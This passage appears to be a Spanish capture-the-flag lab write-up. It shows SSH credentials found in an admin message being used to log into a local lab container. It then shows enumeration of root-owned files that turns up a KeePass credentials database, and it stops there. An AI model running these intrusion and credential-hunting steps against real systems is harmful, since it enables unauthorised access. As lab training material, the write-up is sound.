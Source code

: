 ##### Bandeja Entrada:
```bash
### Mensaje del Administrador

**Usuario:** prudencia.de.ferrera

**Credenciales SSH:**

            Usuario: prudencia-de-ferrera
            Contraseña: PuT3r3stA#SH
            Host: 192.168.1.100
            Puerto: 22
            

Por favor, conéctate al servidor y revisa el estado del sistema de logística para resolver cualquier incidencia.
```
### Intrusion
Ahora nos aprovechamos de esto para ganar acceso por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh prudencia-de-ferrera@172.17.0.2 # ( PuT3r3stA#SH )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Buscaremos por archivos del usuario **root**
```bash
# Comandos clave ejecutados
find /etc -type f -user root -exec stat --format '%Y :%y %n' {} + 2>/dev/null | sort -nr | head
```

Resultado:
```bash
1750617040 :2025-06-22 20:30:40.362640957 +0200 /etc/resolv.conf
1750617040 :2025-06-22 20:30:40.362640957 +0200 /etc/hosts
1750617040 :2025-06-22 20:30:40.170653412 +0200 /etc/hostname
1746718769 :2025-05-08 17:39:29.000000000 +0200 /etc/keepass/credentialsDatabase.kdb
```

### Explotacion de Privilegios

###### Usuario `[ prudencia-de-ferrera ]`:
Tenemos un archivo que es una **bd** con credencilaes
```bash
1746718769 :2025-05-08 17:39:29.000000000 +0200 /etc/keepass/credentialsDatabase.kdb
```

Ahora nos movemos a esta ruta:
```bash
cd /etc/keepass/
```
